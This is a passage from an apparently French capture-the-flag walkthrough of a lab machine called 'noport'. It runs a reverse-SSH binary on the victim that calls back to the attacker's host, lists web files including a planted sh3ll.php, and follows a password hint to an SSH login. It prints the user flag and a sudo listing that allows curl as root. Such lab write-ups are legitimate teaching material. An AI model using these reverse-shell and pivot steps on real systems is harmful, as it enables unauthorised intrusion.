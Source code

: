 Et sur notre victime :

```bash
nohup /tmp/reverse-sshx64 -p 80 192.168.56.1&
```

On retrouve les fichiers:

```console
bash-5.0$ pwd
/var/www/localhost/htdocs
bash-5.0$ ls -al
total 88
drwxr-xr-x    3 apache   apache        4096 May 20 10:44 .
drwxr-xr-x    4 root     root          4096 Apr 20 13:45 ..
drwxr-xr-x    8 apache   apache        4096 Apr 21 01:24 .git
-rw-r--r--    1 apache   apache         307 Mar  2 10:28 .htaccess
-rw-r--r--    1 apache   apache       12288 Mar  2 11:09 .test.php.swp
-rw-r--r--    1 apache   apache        1044 Apr 21 01:22 ctf.conf
-rw-r--r--    1 apache   apache       20480 Apr 22 14:06 database.db
-rw-r--r--    1 apache   apache        4031 Apr 21 14:54 index.php
-rw-r--r--    1 apache   apache       19103 May 20 10:44 log
-rwxr-xr-x    1 apache   apache        1535 Mar  2 11:12 nginx.conf
-rw-r--r--    1 apache   apache         452 Mar  1 14:06 sh3ll.php
-rw-r--r--    1 apache   apache        2421 Apr 22 14:28 test.php
```

Je remonte d'un cran et trouve un indice :

```console
bash-5.0$ cd ..
bash-5.0$ ls
localhost  logs       modules    pass       run
bash-5.0$ cat pass 
To prevent myself fron forgetting my password,i set my password to be the same as the website password so that i wont forget it
```

Il n'y a qu'un seul utilisateur sur la machine donc difficile de se tromper. On ne peut pas utiliser `su` cependant.

```console
bash-5.0$ su akaRed
bash: /bin/su: Permission denied
```

Un port SSH est en écoute sur 127.0.0.1, alors j'en profite pour me connecter sur le compte `akaRed`.

```console
noport:~$ cat user.txt 
flag{UR_s0_Good_*n-n3tvv0rk_For_660930334}
noport:~$ sudo -l
User akaRed may run the following commands on noport:
    (root) NOPASSWD: /usr/bin/curl
    (root) NOPASSWD: /sbin/reboot
```
